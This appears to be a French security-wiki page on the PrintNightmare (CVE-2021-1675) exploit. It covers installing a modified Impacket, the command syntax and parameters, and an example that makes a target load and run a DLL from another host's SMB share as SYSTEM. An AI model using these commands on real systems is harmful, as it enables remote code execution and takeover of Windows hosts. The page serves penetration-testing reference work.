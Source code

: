 ```yaml
---
title: PrintNightmare
description: Permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2025-05-04T14:53:48.285Z
tags: outil, windows, indépendant
editor: markdown
dateCreated: 2024-08-23T14:57:38.073Z
---
```


# Introduction

PrintNightmare est un exploit qui utilise une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> PrintNightmare est disponible au téléchargement [ici](https://github.com/cube0x0/CVE-2021-1675)
> {.is-info}

> Le canal nommé \pipe\spoolss est utilisé pour la communication.
> {.is-info}

# Installation

Cet exploit nécéssite une version de Impacket modifiée.

`pip3 uninstall impacket`
`git clone https://github.com/cube0x0/impacket`
`cd impacket`
`python3 ./setup.py install`

# Syntaxe

`CVE-2021-1675.py [[domaine/]utilisateur[:mot de passe]@]<nom ou adresse de la cible> <chemin du fichier DLL> [paramètres]`

# Paramètres

| Paramètre                    | Description                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------- | -------------------------- |
| `-h                          | --help`                                                                           | Affiche le message d'aide. |
| `-hashes <LMHASH>:<NTHASH> ` | Spécifie les hashes NTLM pour l'authentification.                                 |
| `-target-ip [adresse]`       | Spécifie l'adresse de la cible (utile si le nom Netbios est utilisé comme cible). |
| `-port <port> `              | Spécifie le port de destination pour la connexion au serveur SMB.                 |

# Exemples

Ajoute le driver situé sur le partage SMB "\\192.168.1.2\smb\addCube.dll" sur le système 192.168.1.1 avec comme utilisateur domain.local/paul et mot de passe "t00r".
`CVE-2021-1675.py domain.local/paul:t00r@192.168.1.1 '\\192.168.1.2\smb\addCube.dll'`

# Voir aussi

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

Emplacement et informations concernant le canal nommé \pipe\spoolss:
https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-rprn/fdf1138a-f6b9-4b00-ada6-1fbb6097d683
